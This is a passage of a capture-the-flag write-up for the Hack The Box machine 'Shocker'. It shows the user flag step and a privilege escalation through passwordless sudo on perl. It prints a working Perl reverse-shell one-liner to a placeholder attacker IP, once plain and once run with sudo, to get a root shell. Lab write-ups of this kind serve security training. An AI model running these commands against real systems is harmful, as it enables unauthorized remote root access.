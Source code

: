 <br>

## 3. A User Named "Shelly" - *__GET IT?__*


Retrieve the user flag.

* `ls ~`
* `cat ~/user.txt`

```
shelly@Shocker:/home/shelly$ ls ~
user.txt

shelly@Shocker:/home/shelly$ cat ~/user.txt
```

User Flag Captured!

Time to see what Shelly can do besides make puns.

* `sudo -l`

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```


Shelly can run perl as root using `sudo` without a password! <br>

All that stands between us and a root shell is finding the right command.


From my trusty __Red Team Field Manual__ by Ben Clark, I found this:

`perl -e 'use Socket;$i="local.machine.ip.addr";$p=PORTNUM;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`


Start a second listener on your local machine at a new port, then run the command below.


`sudo perl -e 'use Socket;$i="local.machine.HTB.ip";$p=PORTNUM_B;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`


<br>
![rooted](https://i.imgur.com/p8A72wZ.png)

<br>


## 4. Root Flag
